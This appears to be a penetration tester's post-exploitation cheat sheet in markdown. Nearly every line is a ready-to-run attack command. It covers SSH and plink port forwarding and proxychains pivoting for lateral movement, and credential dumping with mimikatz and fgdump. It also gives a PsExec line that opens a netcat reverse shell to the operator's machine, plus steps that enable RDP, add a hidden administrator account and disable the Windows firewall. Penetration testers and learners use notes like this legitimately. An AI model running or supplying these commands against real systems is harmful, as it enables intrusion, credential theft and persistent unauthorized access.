 # Post Exploitation
## Lateral movement
### Local Port forwarding
#### Port forwarding rinetd
```
apt install rinetd
cat /etc/rinetd.conf
```

#### SSH local port forward
```
ssh -N -L <LOCAL PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<TARGET IP>
```

#### SSH port forwarding over hop
```
ssh -N -L <BIND_ADRESS>:<PORT>:<TARGET IP>:<TARGET PORT> <USERNAME>@<HOP IP>
```
### Remote port forwarding
#### SSH forward local port of target back to our kali
```
ssh -N -R <BIND_ADRESS>:<PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<IP>
```

### Dynamic port forwarding
```
sudo ssh -N -D 127.0.0.1:9000 <username>@<IP>
vim  /etc/proxychains.conf
socks4		127.0.0.1 9000 #Change this value
#prepend proxychains command before every command to send through the proxychain.
```

#### Port forwarding plink.exe
```
plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```

### Proxychains
### Proxychains over hop
```
ssh -J <USER>@<FIRST HOP IP> -D 127.0.0.1:9000 <USER>@<SECOND MACHINE>
```

## Dumping credentials
#### Mimikatz.exe
Bring over mimikatz.exe using an SMB server.
```
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full"
```

#### Fgdump.exe
```
fgdump.exe
type .....pwdump
```

## Misc
#### PSExec
Shell back to my machine with other user using netcat 
```
PsExec.exe -u <COMPUTERNAME>\<USERNAME> -p <PASSWORD> \\<COMPUTERNAME> nc.exe <IP> <PORT> -e cmd.exe
```

#### Enable RDP
```
#Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

#Enable more then 1 user login
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f

#Add user to RDP group
net user <USER> <PASS> /add /Y
net localgroup administrators <USER> /add
net localgroup "Remote Desktop Users" <USER> /add

#Disable firewall
netsh advfirewall set allprofiles state off

#RDP to machine
xfreerdp /u:<USER> /p:<PASS> /v:<TARGET>
```
